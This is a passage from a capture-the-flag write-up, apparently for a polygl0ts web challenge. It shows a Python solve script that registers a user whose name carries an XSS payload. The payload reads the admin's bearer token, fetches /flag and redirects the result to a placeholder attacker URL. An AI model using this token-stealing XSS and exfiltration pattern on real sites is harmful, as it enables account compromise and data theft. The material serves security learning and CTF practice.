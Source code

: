 So it sends the username and password to the `/token` endpoint and stores the received access token in a global variable. Conveniently, the access token is stored in a global variable, so we can access it from our XSS payload easily. We just need to send a request to `/flag` like so:

```javascript
fetch("flag", {
    headers: {
        "Authorization": "Bearer " + access_token
    }
}).then(r => r.text()).then(flag => do_something(flag))
```

## Solution

Our final solve script looks like this. It creates a user with our XSS payload, gets an access token for that user, and adds a new line. When our admin visits the instance, it will trigger the payload, which makes an authenticated request to `/flag` and then redirects to our server with the response contents in the URL.

```python
import requests

username = r"""<script>fetch("flag",{headers:{"Authorization":"Bearer "+access_token}}).then(r=>r.text()).then(flag=>window.location.replace("https://<attacker_url>/?flag="+flag))</script>"""

url = "http://chall.polygl0ts.ch:4100"
password = "test"

with requests.Session() as s:
    resp = s.get(url)
    id = resp.url.split('/')[3]
    NEW_URL = f"{url}/{id}"
    print(f"Instance: {id}")
    resp = s.post(NEW_URL + '/register', data={
        'username': username,
        'password': password,
        'full_name': 'full_name',
        'email': 'email@email.com',
    })
    print(f"Registering {resp.status_code}: {resp.text}")

    resp = s.post(NEW_URL + '/token', data={
        'username': username,
        'password': password,
    })

    print(f"Getting token {resp.status_code}")

    access_token = resp.json()['access_token']    

    resp = s.post(NEW_URL + '/lines/add', data={
        'description': 'description',
        'amount': 100,
    }, headers={
        "Authorization": f"Bearer {access_token}",
    })

    print(f"Upload {resp.status_code}: {resp.text}")
```
